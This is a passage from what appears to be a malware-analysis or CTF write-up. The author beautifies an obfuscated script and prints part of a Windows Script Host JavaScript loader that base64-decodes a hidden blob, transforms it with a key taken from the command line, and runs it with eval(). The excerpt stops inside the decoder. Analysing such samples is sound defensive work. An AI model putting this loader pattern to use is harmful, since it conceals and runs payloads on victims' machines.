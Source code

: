 obfuscated again 😬

let's beautify it first using https://beautifier.io/

![image](13.png)

```js
var lVky = WScript.Arguments;
var DASz = lVky(0);
var Iwlh = lyEK();
Iwlh = JrvS(Iwlh);
Iwlh = xR68(DASz, Iwlh);
eval(Iwlh);

function af5Q(r) {
    var a = r.charCodeAt(0);
    if (a === 43 || a === 45) return 62;
    if (a === 47 || a === 95) return 63;
    if (a < 48) return -1;
    if (a < 48 + 10) return a - 48 + 26 + 26;
    if (a < 65 + 26) return a - 65;
    if (a < 97 + 26) return a - 97 + 26
}

function JrvS(r) {
    var a = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    var t;
    var l;
    var h;
    if (r.length % 4 > 0) return;
    var u = r.length;
    var g = r.charAt(u - 2) === "=" ? 2 : r.charAt(u - 1) === "=" ? 1 : 0;
    var n = new Array(r.length * 3 / 4 - g);
    var i = g > 0 ? r.length - 4 : r.length;
    var z = 0;

    function b(r) {
        n[z++] = r
    }
    for (t = 0, l = 0; t < i; t += 4, l += 3) {
        h = af5Q(r.charAt(t)) << 18 | af5Q(r.charAt(t + 1)) << 12 | af5Q(r.charAt(t + 2)) << 6 | af5Q(r.charAt(t + 3));
        b((h & 16711680) >> 16);
        b((h & 65280) >> 8);
        b(h & 255)
    }
```